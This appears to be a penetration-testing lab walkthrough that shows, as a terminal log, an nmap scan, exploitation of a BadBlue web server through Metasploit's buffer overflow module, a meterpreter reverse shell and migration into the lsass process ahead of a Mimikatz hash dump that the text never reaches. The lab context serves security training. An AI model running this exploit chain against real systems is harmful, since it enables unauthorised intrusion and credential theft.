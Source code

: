 # Dumping Hashes with Mimikatz

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# nmap -sV 10.5.20.224
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-02 15:11 IST
Nmap scan report for 10.5.20.224
Host is up (0.0020s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          BadBlue httpd 2.7
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.12 seconds
root@attackdefense:~# msfconsole

msf6 > search badblue

Matching Modules
================

   #  Name                                       Disclosure Date  Rank   Check  Description
   -  ----                                       ---------------  ----   -----  -----------
   0  exploit/windows/http/badblue_ext_overflow  2003-04-20       great  Yes    BadBlue 2.5 EXT.dll Buffer Overflow
   1  exploit/windows/http/badblue_passthru      2007-12-10       great  No     BadBlue 2.72b PassThru Buffer Overflow


Interact with a module by name or index. For example info 1, use 1 or use exploit/windows/http/badblue_passthru

msf6 > use 1
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/badblue_passthru) > set RHOSTS 10.5.20.224
RHOSTS => 10.5.20.224
msf6 exploit(windows/http/badblue_passthru) > exploit

[*] Started reverse TCP handler on 10.10.26.2:4444 
[*] Trying target BadBlue EE 2.7 Universal...
[*] Sending stage (175174 bytes) to 10.5.20.224
[*] Meterpreter session 1 opened (10.10.26.2:4444 -> 10.5.20.224:49976) at 2024-01-02 15:12:14 +0530

meterpreter > 

meterpreter > sysinfo
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: ATTACKDEFENSE\Administrator
meterpreter > pgrep lsass
596
meterpreter > migrate 596
[*] Migrating from 4912 to 596...
[*] Migration completed successfully.